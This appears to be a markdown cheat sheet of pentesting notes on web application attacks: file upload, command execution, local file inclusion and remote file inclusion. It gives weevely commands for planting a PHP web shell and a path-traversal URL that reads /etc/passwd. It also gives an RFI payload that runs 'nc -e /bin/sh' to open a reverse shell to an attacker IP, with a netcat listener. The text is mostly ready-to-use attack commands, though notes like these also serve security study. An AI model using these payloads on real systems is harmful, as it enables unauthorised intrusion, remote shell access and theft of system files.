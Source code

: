 ### File Upload Vulnerability

1. <u>Generate PHP Shell</u>

````bash
weevely generate <password> <output-file>
````

2. <u>Connect to Shell</u>

````bash
weevely <path-to-script> <password>
````

---

### Code Execution Vulnerability

Allows to perform OS specific commands on the Web App  
Multiple Linux commands can be separated using ";"

#### Reverse Shell in Different Languages

[Reverse Shell Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

The IP Address in the above commands is the attacker IP Address

---

### Local File Inclusion Vulnerability

Allows to read files that are outside the Server Folder (www/html/)  
If the current page loads another page for displaying content we could use this exploit

URL : `http://<website>/<path>/?page=<filename>`  
Modified : `http://<website>/<path>/?page=../../../../../../etc/passwd`

---

### Remote File Inclusion Vulnerability

<u>Config Required</u>  
/etc/php5/cgi/php.ini  
allow_url_fopen = On  
sllow_url_include = On

<u>Create PHP Script</u>

````php
<?php
	passthru("nc -e /bin/sh <ip-address> <port>")
?>
````

The script should be saved as an .txt file (Else file will get run on our device)  
The Remote Server should be accessible by the Target Website

<u>Start Listener</u>

````bash
nc -vv -lp <port>
````

URL : `http://<website>/<path>/?page=<filename>`  
Modified : `http://<website>/<path>/?page=<URL-to-remote-server>?`

